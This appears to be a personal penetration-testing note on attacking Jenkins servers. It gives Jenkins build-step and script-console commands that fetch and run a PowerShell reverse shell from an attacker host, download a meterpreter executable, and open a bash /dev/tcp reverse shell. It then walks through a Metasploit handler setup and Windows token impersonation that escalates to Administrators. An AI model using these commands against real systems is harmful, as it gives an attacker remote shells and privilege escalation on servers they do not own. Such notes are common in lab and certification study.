 ```yaml
---
title: Jenkins 👨‍🎓
---
```

![](Pasted%20image%2020240512182145.png)

## Gaining a reverse shell

### For Windows

1. Go to `Jenkins >> New Item`
2. Create a new `Freestyle project`
3. Go to `Build section` and select `Execute Windows batch command`:

![](Pasted%20image%2020240512180945.png)

4. Create in your local machine the `.ps1` reverse shell.
	- This shell is already in  [Reverse shells 👾](reverse_shells.md)
5. Initialize the python server for the script to download
6. now paste the following command in Jenkins:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PYTHON_PORT/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress YOUR_IP -Port PYTHON_PORT
```

7. now go to `Build Now` int he build you created

==You will receive the shell pretty fast==

![](Pasted%20image%2020240512182102.png)

#### Switch to a meterpreter

1. Generate a Windows meterpreter reverse shell using [Msfvenom 🕸️](/notes/Tools/msfvenom.md) (*check the command in the note*)
2. After creating the payload, download it into the machine with:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://YOUR_IP:PYTHON_PORT/SHELL.exe','SHELL.exe')"
```

3. Start Metasploit with `msfconsole -q`
4. Ensure the handler is set up in Metasploit:

```shell
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT your_port 
run
```

5. Execute the reverse shell in the victim's machine with:

```shell
Start-Process SHELL.exe
```

### For Linux

Go to `Jenkins` >> `Manage Jenkins` and click on `Script Console`

![](Pasted%20image%2020240531163514.png)

Now execute the following command:

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/YOUR_IP/YOUR_PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![](Pasted%20image%2020240531163709.png)

## Privilege Escalation with Token Impersonation

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- User SIDs(security identifier)
- Group SIDs
- Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:
- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:
- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

- View all the privileges using `whoami /priv`

Now, in Metasploit run:

```shell
load incognito
# run first "use incognito" if not installed
```

To check which tokens are available, enter:

```shell
list_tokens -g

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
...
```

Impersonate the `BUILTIN\Administrators` token with:

```shell
 impersonate_token "BUILTIN\Administrators"
 # Confirm with
 getuid
```

Now migrate to a process with correct permissions with:

```shell
migrate PID_OF_PROCESS
```

Now you are `System32`

